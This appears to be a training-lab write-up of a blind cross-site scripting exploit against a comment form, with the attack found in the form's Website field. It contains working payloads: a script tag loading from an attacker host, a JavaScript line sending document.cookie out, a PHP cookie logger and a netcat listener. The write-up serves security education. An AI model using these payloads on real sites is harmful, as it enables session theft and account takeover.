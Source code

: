 ## Cross-Site Scripting (XSS) - Skills Assessment Write-up


### Objective

The goal of this assessment was to identify and exploit Cross-Site Scripting (XSS) vulnerabilities within the `/assessment` directory of the target application, and to extract sensitive information by leveraging the discovered weakness.


### Reconnaissance

Upon accessing the `/assessment` directory, I was presented with a page that included a **comment submission form**.  

The form contained the following input fields:
- **Comment**
- **Name**
- **Email**
- **Website**

Additionally, there was an option to save user details for later use.

![](screenshots/1.png)


### Initial Testing

I first submitted a benign comment to observe the behavior of the form. The application responded with:

![](screenshots/2.png)

This indicated that while the input was accepted, it would not be displayed to us directly. Instead, the submitted content was likely stored and later rendered on an **administrator-only page**.  

As a result, any XSS payloads would not execute in our own session, but could potentially trigger when viewed by a privileged user (e.g., a moderator).  

Based on this behavior, I focused on testing **Blind XSS**.


### Blind XSS Discovery

Next, I attempted a **Blind XSS attack** by setting up a listener:

```bash
sudo nc -lvnp 80 -s <attacker_ip>
```

I injected payloads using the template `test<script src="http://<attacker_ip>/<field_name>"></script>` into multiple form fields:

![](screenshots/3.png)

The listener confirmed that the **Website** field was vulnerable when the application attempted to load the external resource:

![](screenshots/4.png)


### Exploitation

To exfiltrate cookies from the vulnerable application, I created the following files on my server: `index.php` (to log the cookies) and `script.js` (to trigger exfiltration):

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```javascript
new Image().src='http://<attacker_ip>/index.php?c='+document.cookie;
```

I then hosted these files using PHP’s built-in server, as Netcat was unable to correctly process the incoming HTTP requests:

```bash
sudo php -S <attacker_ip>:80
```

Finally, I injected the following payload into the **Website** field to trigger the exploit:

```
test<script src="http://<attacker_ip>/script.js"></script>
```


### Results

The victim browser executed my payload, requested `script.js`, and subsequently sent the cookies to `index.php`, which saved them to `cookies.txt`:

![](screenshots/5.png)


## Conclusion

The Website field of the comment submission form was vulnerable to Blind XSS. By leveraging this issue, I successfully executed arbitrary JavaScript on the victim browser and exfiltrated session cookies, including the assessment flag.

This confirms the presence of a critical XSS vulnerability that could allow attackers to steal sensitive user data and compromise accounts.


### Key Takeaways

- No visible execution occurred for Stored, Reflected, or DOM-based XSS payloads  
- Blind XSS successfully triggered via the **Website** field  
- External script execution enabled cookie exfiltration  
- Captured session data revealed the assessment flag




